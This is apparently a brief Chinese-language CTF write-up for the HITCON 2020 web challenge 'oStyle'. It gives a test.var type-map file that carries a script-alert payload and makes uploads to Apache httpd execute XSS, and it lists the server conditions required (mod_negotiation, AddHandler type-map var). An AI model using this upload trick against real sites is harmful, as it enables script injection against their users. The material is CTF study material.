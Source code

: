 # HITCON-2020-web-oStyle

* apache-httpd文件上传通用XSS

* 测试环境Ubuntu20.04-apache v2.4.41

测试所用的test.var文件

```
Content-type: text/html
Body:----foo----
<script>
alert(document.domain)
</script>
----foo----
```

## 成功执行条件

1. 存在mod_negotiation模块

2. 开启AddHandler type-map var

* Ubuntu环境满足1和2，Alpine Linux只满足1(不会执行)

注：Ubuntu相关配置文件位于mod_enabled/mime.conf